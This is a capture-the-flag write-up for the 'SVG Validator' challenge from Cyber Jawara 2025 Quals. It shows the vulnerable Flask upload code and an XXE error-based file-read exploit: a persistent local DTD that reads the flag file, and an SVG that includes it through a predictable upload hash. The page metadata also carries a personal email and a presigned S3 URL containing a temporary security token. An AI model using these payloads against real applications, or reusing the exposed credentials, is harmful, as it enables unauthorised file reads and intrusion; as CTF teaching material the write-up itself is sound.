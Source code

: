 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466ZQKJ4RTO%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044816Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJGMEQCIAxM8ejl%2BRE8DJwIzi7jHgahXAdvHjgOR0yCagDSPM%2FqAiB%2FRi7Z%2Bk3UI6yhCJ9KkvEN2APhU09n4pZa1JJNQ%2BONASqIBAj%2B%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMFf6KuYzA%2BGo4FCalKtwDIKA3NRa7SU4ppXmyTLpjTA5QBfNisPetQ4FOwG7hfvI5K72UpRkcOPqV8%2BFeW08d%2B1hN%2FyXHuvGdjjU1%2B%2F8%2Be9Kw%2B1GFwdPwv9L7KbUqPuyZAqapE0rCch1T8lFV1h8x4rGhq2jLoaIEXQvRaXapesV6%2BEZxWMbOcVU8fq6z9KZP0%2FN6P%2FBXKYH8w2WgTbKjftPVx4vt4CqZ76DaM1O24nuoRVpQPMj1DNiaSEJ0kDOS8wBv5wRqJJNbUB5LJ3x0NAr6JxVH%2Fy58vOXEvMh28hiPdqvbHuezK3QS53jNS61l7w%2FwbsdC3iYLAjZVOBB%2BxX2c2FhHjxkjazv1oocZGT7zGa%2FC2OkzFAZSAwVD5ouiZ7KObJKhhZOHSN4Y8SGeepNs869%2BXTEeIiNry%2B7%2Fl30tNlFzUqcweLaEkkkmhMjooNRaPnkgIBCMDBC0Vif%2FBuUUEQE0Qy%2BuQN%2B7R%2FAdGI566ZD3aa0ZFTI%2BTo4tcTfs6Z6evSwFGQ%2Btp%2FDclGjMdeUUspGgHrcFwLVBIR1VIBCfeWFvOJ2mgMq63tR7BUeAzw%2B2dXPnHWF%2BxBDRLp9aUXcdkejrXwIVPYRkC%2FVKd52fO%2Bd2ppneMm28WR8M1o5OvoMM3knlfYoaLGQw%2BZLFwQY6pgHNIrlZKQE3xf4nTwH9873NYy9TAVGalkBLnA1TF8xAm9ZTB5Acu%2BQyvC35jGJMBD8AxkWOti%2BcEnEROUfqDgfqrFIV1vNasgkLOuyQzPPBMXSMSg%2FHqXtBByk6dHKpiwNEuYxos8gj4D8%2F4vcR00d4azyxEnKFrRftIXS2o3wp3J3SBfbZz77wivMjGMP9TQtkuSbJJj1tFtE9%2FODD4TiFfSJvm87N\&X-Amz-Signature=9dc84985c27a2d3ee68485d4ec69efcdade04eb5a5e1052be11c186bfa9c2339\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
